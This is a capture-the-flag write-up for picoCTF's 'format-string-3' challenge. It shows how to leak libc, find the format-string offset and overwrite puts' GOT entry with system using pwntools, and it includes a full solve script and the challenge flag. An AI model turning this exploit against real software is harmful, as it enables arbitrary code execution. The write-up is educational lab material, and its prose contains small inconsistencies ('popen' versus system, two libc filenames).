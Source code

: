 ```yaml
---
ai_date: 2025-04-27 05:29:22
ai_summary: Format string attack exploited to leak and overwrite GOT entry for `puts` to execute `system` after address leak.
ai_tags:
  - fmt-str
  - got
  - rop
  - aslr
created: 2024-08-07T22:13
updated: 2025-07-14T09:46
---
```


Format string attack modifying GOT to run custom function after memory address leak.
## Idea

We need to overwrite `puts` to `popen` in memory with writes.
So `puts('/bin/sh')` becomes `system('/bin/sh')`.
## Offset

We can find the location of our format string in memory using `%n$p`.
When the server replies `69ABCDEF` in little endian, `n` is the offset.

Automatic offset finding via pwntools.

```python
from pwn import *

elf = context.binary = ELF('./format-string-3')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info("offset = %d", offset)
```

## Addresses

In `libc.so.6` we can find the functions related to the challenge.

```python [libc]
0x000000000004F760: system
0x0000000000079BF0: puts
0x000000000007A3F0: setvbuf
```

We have the address of `system` right? Nay, due to **ASLR** we have to do address leak first.
Luckily the author already does that for us.

```python
p = process(program)
# p = remote('rhea.picoctf.net', 50248)
p.recvuntil(b': 0x')
setvbuf_leak = int(p.recvuntil(b'\n', drop=True).decode(), 16)
libc = ELF("./libc.so")
libc.address = setvbuf_leak - libc.symbols['setvbuf']  # normalizing libc base address
sys_addr = libc.symbols['system']
```

We now have the address of `system` in memory.
## Format String Attack

By sending `%p` we can see that `puts` is right next to us in stack.

```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f48f9aaa3f0
AAAAAAAA%p
AAAAAAAA0x7f48f9c08963
```

How do we change it?

ELFs store symbol-address map in GOT (Global Offset Table).

We can modify the GOT entry of `puts` like this.

```python
sys_addr = libc.symbols['system']
puts_addr = elf.got['puts']
writes = {puts_addr: sys_addr}

payload = fmtstr_payload(offset, writes)
p.sendline(payload)
```

And that's it, we have shell access.

```flag
picoCTF{G07_G07?_7a2369d3}
```

## Solve Script

```python
from pwn import *

elf = context.binary = ELF('./format-string-3')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info("offset = %d", offset)

p = elf.process()
# p = remote('rhea.picoctf.net', 50248)

p.recvuntil(b': 0x')
setvbuf_leak = int(p.recvuntil(b'\n', drop=True).decode(), 16)

libc = ELF("./libc.so.6")
libc.address = setvbuf_leak - libc.symbols['setvbuf']  # normalizing libc base address

sys_addr = libc.symbols['system']
puts_addr = elf.got['puts']
writes = {puts_addr: sys_addr}

payload = fmtstr_payload(offset, writes)
p.sendline(payload)
p.interactive()
```